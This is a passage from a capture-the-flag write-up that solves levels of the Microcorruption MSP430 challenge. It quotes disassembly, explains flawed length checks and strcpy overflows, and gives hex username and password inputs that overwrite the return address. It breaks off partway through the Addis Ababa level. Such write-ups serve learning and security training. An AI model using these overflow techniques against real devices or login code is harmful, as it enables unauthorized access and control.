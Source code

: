 ```
4650:  0624           jz	#0x465e <login+0x10e>    <-- third check
4652:  1f42 0024      mov	&0x2400, r15
4656:  b012 2847      call	#0x4728 <puts>
465a:  3040 4044      br	#0x4440 <__stop_progExec__>
```

1. `-0x6(r4)` have to be zero
2. `-0x18(r4)` have to be larger than the length of our input
3. `-0x19(r4)` have to be smaller than the length of our input

We can override the return address, `-0x18(r4)`, and `-0x19(r4)` with our username input, and use the null byte from `strcpy` to fill `-0x6(r4)` using the password input.

username: `6161 6161 6161 6161 6161 6161 6161 6161 6101 ff61 6161 6161 6161 6161 6161 6161 6161 6161 6161 6161 6161 4a44`

password: `4242 4242 4242 4242 4242 4242 4242 4242 42`

# Jakarta - 40pts

```
45aa:  b012 f446      call	#0x46f4 <strcpy>
45ae:  7b90 2100      cmp.b	#0x21, r11
45b2:  0628           jnc	#0x45c0 <login+0x60>
45b4:  1f42 0024      mov	&0x2400, r15
45b8:  b012 c846      call	#0x46c8 <puts>
45bc:  3040 4244      br	#0x4442 <__stop_progExec__>
...
4600:  7f90 2100      cmp.b	#0x21, r15
4604:  0628           jnc	#0x4612 <login+0xb2>
4606:  1f42 0024      mov	&0x2400, r15
460a:  b012 c846      call	#0x46c8 <puts>
460e:  3040 4244      br	#0x4442 <__stop_progExec__>
```

The length check uses `cmp.b` which means only the last byte is compared; therefore, if the length is `0x100`, it will still pass the test.

username: `4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141`

password: `4141 4141 4c44 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141`

# Addis Ababa - 50pts

```
4438 <main>
4438:  3150 eaff      add	#0xffea, sp
443c:  8143 0000      clr	0x0(sp)
4440:  3012 e644      push	#0x44e6 "Login with username:password below to authenticate.\n"
4444:  b012 c845      call	#0x45c8 <printf>
4448:  b140 1b45 0000 mov	#0x451b ">> ", 0x0(sp)
444e:  b012 c845      call	#0x45c8 <printf>    <-- output
4452:  2153           incd	sp
4454:  3e40 1300      mov	#0x13, r14            <-- input length 0x13=19 bytes
4458:  3f40 0024      mov	#0x2400, r15
445c:  b012 8c45      call	#0x458c <getsn>     <-- get input (address: 0x2400)
4460:  0b41           mov	sp, r11
4462:  2b53           incd	r11
4464:  3e40 0024      mov	#0x2400, r14
4468:  0f4b           mov	r11, r15
```